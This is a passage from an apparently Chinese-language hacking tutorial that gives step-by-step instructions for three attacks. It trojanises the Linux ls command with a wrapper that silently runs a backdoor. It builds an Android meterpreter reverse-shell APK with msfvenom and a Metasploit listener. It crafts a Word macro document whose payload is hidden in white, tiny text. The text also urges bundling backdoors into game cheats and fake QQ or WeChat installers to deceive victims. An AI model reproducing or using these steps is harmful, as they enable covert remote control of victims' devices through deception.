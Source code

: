 #### 2.19.2.1 linux端木马伪装

```shell
#这里假定伪装ls命令
#1.查看ls命令的位置
which ls (假如是：/usr/bin/ls)
#2.移动ls命令的执行位置
mv /usr/bin/ls /opt/ls
#3.编辑并保存ls
vi /usr/bin/ls
#!/bin/bash
/opt/ls --color=auto
/root/Downloads/hi.elf >& /dev/null &

#4.赋予执行权限
chmod +x /usr/bin/ls

#5.此时再执行 ls命令即可
```

### 2.19.3 手机端(安卓端)

```shell
hacker可以针对不同人群进行各种主动攻击，例如把后门捆绑到现在很火的吃鸡游戏外外挂上,
或者捆绑到知名网游外挂补丁上，然后传到网路，供给他们下载。
再或者伪装成QQ或者微信类的安装软件提供给有需求的人群。·
比如我们向目标手机发一个含有后门的apk软件，或者是一个word 文档、pdf 文件。
想要达到效果同时也要利用好社会工程学，来诱骗受害者执行恶意程序。

基本流程如下：
#1.生成木马
msfvenom -p android/meterpreter/reverse_tcp lhost=10.102.224.109 lport=4444 --platform android R> /root/games.apk

#2.在kali机开启监听
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 10.102.224.109
set lport 4444
run

#3.将生成的apk安装到手机后
kali即可获取到执行权限
```

### 2.19.4 word文档攻击

```shell
1.生成木马
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.102.224.109 lport=4444 -a x86 --platform windows -e x86/shikata_ga_nai -i 5 -f vba-exe

2.制作一个word木马文档
>> 新建word文档：hi.docx
>> 视图-->查看宏-->将第一步生成的 MACRO CODE 粘贴到宏中，宏的名称随意
>> ctrl+s保存
>> 将第一步生成的 PAYLOAD DATA 粘贴到 word文档hi.docx中
>> 注意：为了更好的隐藏，粘贴到hi.docx时，可以将字体颜色为白色，字体调小，放到文档最后

3.在kali机开启监听
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.102.224.109
set lport 4444
run
```